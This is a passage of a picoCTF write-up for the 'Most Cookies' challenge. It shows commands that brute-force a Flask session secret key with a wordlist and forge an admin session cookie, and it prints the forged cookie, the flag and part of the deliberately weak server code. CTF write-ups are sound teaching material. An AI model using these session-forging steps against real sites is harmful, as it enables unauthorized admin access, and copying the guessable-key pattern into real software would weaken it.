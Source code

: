 Ensure that you are in the correct folder that contains cookie.txt and wordlist.txt ... then you can enter this script:

```
$ flask-unsign --unsign --cookie < cookie.txt --wordlist wordlist.txt
```

After an agonizing 1 second, you are slapped with the secret key!! In my case, it was 'fortune'. Lucky me!

#### FASTER WAY THAT I USED TO FIND THE SECRET KEY

```
$ flask-unsign --unsign --server 'http://mercury.picoctf.net:65344/' --wordlist wordlist.txt
```

### 2. Use the secret key to generate our own cookie

With the secret key, the rest will be a breeze. Time to forge our own session cookie! >:D

I found this godly [website](https://github.com/noraj/flask-session-cookie-manager) about encoding flask session cookies. On the website, there is an 'Encode' section ... so I used their code.

```
$ flask_session_cookie_manager3.py encode -s fortune -t "{'very_auth':'admin'}"
# we attach the secret key and confirm admin
```

And ... we are blessed with our very own forged cookie!!!!!!!!!!!!!!!

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.YGEVdA.Fqe_gJWtcM37UiFmpaWsMkhel6w
```

### 3. Insert our cookie into the [site](http://mercury.picoctf.net:65344/) to replace the cookie value

Copy and paste that bad boy into the cookie value.

### 4. Reload the page to receive salvation

## Flag

picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}

## References

### server.py

```
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
```